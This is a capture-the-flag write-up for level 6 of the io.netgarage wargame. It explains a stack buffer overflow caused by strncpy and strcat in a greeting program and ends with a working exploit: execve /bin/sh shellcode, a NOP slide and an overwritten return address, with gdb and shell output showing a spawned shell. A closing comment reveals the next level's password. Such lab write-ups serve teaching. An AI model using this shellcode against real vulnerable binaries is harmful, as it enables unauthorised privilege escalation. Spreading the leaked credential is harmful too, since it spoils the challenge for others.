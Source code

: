 ## Level 6:

Strange *ebp* and *esp* overflow effect.

```c
 1 //written by bla
 2 //inspired by nnp
 3 #include <stdio.h>
 4 #include <stdlib.h>
 5 #include <string.h>
 6 
 7 enum{
 8 LANG_ENGLISH,
 9 LANG_FRANCAIS,
10 LANG_DEUTSCH,
11 };
12 
13 int language = LANG_ENGLISH;
14 
15 struct UserRecord{
16     char name[40];
17     char password[32];
18     int id;
19 };
20 
21 void greetuser(struct UserRecord user){
22     char greeting[64];
23     switch(language){
24         case LANG_ENGLISH:
25             strcpy(greeting, "Hi "); break;
26         case LANG_FRANCAIS:
27             strcpy(greeting, "Bienvenue "); break;
28         case LANG_DEUTSCH:
29             strcpy(greeting, "Willkommen "); break;
30     }
31     strcat(greeting, user.name);
32     printf("%s\n", greeting);
33 }
34 
35 int main(int argc, char **argv, char **env){
36     if(argc != 3) {
37         printf("USAGE: %s [name] [password]\n", argv[0]);
38         return 1;
39     }
40 
41     struct UserRecord user = {0};
42     strncpy(user.name, argv[1], sizeof(user.name));
43     strncpy(user.password, argv[2], sizeof(user.password));
44 
45     char *envlang = getenv("LANG");
46     if(envlang)
47         if(!memcmp(envlang, "fr", 2))
48             language = LANG_FRANCAIS;
49         else if(!memcmp(envlang, "de", 2))
50             language = LANG_DEUTSCH;
51 
52     greetuser(user);
53 }
```

strncpy doesn't protect against a overflow because it doesn't require a NUL termination more [here](https://devblogs.microsoft.com/oldnewthing/20050107-00/?p=36773).

The strncpy is one part of the puzzle. Currently if we try to store name larger or equel to 40 bytes we will save the 40 characters without the NUL byte and the same can be done with the password. This alone causes SIGSEGV but it isn't too helpful.

There is another "unsafe" function: strcat. We are concatinating first the greeting ("Hi ", ...) into the greeting variable and then the name. However since the name doesn't have NUL byte it will actually concatinate the password as well and this will cause an overflow. We are trying to fit 72 bytes (name + password) + greeting into a 64 byte reserved space. We can clearly see this in action if we just try to run the program with the max name and password.

```console

```

Here we can see the buffer is too small, thankfully we can add few more bytes by changing the LANG variable, I chose fr for french.

```console

```

Now we overwrote the return address!



We can also see after the 40 bytes the remaining size is 26 before we overwrite the return address, so we need to add 26random bytes (I chose "B" or \x42) and then append the starting address of the shellcode (in my case: 0xbffffb1a).

So our total payload looks like this:
```console
(gdb) r $(python -c 'print "A"*6 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*11 + " " + "B"*26 + "\x1a\xfb\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level06 $(python -c 'print "A"*6 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*11 + " " + "B"*26 + "\x1a\xfb\xff\xbf"')

Breakpoint 4, 0x08048581 in greetuser ()
(gdb) c
Continuing.
Bienvenue AAAAAA1�Ph//shh/bin��PS��
                                   AAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBB����

Breakpoint 5, 0x08048591 in greetuser ()
(gdb) c
Continuing.
process 3917 is executing new program: /bin/bash
sh-4.3$
```

After continuing throught our breakpoints we get the shell. If we however try this outside the gdb we get an error:

I've also added a NOP slide (\x90 bytes) to help if the address was slightly off (this helps me in the future).

```console
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + " " + "B"*26 + "\x1a\xfb\xff\xbf"')
Bienvenue �����������������1�Ph//shh/bin��PS��
                                              BBBBBBBBBBBBBBBBBBBBBBBBBB����
Illegal instruction
level6@io:/levels$ 
```

This is because the address while using the gdb was probably slightly different. There is a way to use the absolut address, for this solution you can go [here](https://github.com/randomcompanyname/ctf_writeup/blob/master/io.netgarage.org/level6.md). 

What I tried is changing the least significant byte by a factor of 16 (i.e. \x00 -> \x10 -> \x20 ...) to find the address. Since I'm using the NOP slide I need just the approximate location to the payload to execute it and it turns out to be 0xbffffb40:

```console
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + " " + "B"*26 + "\x40\xfb\xff\xbf"')
Bienvenue �����������������1�Ph//shh/bin��PS��
                                              BBBBBBBBBBBBBBBBBBBBBBBBBB@���
sh-4.3$ 
```

<!-- Level 7 password ==> U3A6ZtaTub14VmwV -->